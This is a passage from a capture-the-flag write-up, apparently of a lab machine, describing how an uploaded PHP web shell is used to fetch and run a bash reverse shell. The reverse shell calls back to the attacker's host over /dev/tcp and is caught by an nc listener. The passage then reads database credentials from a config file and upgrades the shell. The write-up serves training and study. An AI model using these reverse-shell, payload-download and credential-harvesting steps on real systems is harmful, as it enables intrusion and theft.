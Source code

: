 Supplying `ls -alh` as the value for cmd, we can list the contents of uploads directory.

### Getting www-data shell
First we have to create a simple bash-reverse shell script that will be hosted using a python webserver.
```bash
root@silence:~# cat s.sh
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'
```
The bash reverse-shell that will be hosted.

Hosting the reverse-shell using `python3 http.server` we can download the payload from the server with http://10.10.10.185/images/uploads/chronos.php.jpg?cmd=wget+10.10.14.11/s.sh.
```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.185 - - [18/Apr/2020 23:35:52] "GET /s.sh HTTP/1.1" 200 -
```
Using http://10.10.10.185/images/uploads/chronos.php.jpg?cmd=bash+s.sh the reverse-shell is executed and returned to the nc listener.
```bash
root@silence:~# nc -lvnp 443
Ncat: Connection from 10.10.10.185:53734.
www-data@ubuntu:/var/www/Magic/images/uploads$
```

# Privesc

Now that we got our initial shell, let us enumerate the system to find a way to escalate our privileges to user.

## Privesc to user

### Enumeration as www-data

```bash
theseus@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic';
    private static $dbHost = 'localhost';
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```
In order to try the password and su to theseus, the shell has to be upgraded first.
```bash
www-data@ubuntu:/var/www/Magic/images/uploads$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@silence:~# stty raw -echo
root@silence:~# nc -lvnp 443

www-data@ubuntu:/var/www/Magic/images/uploads$
```
With the upgraded shell su can now be used.
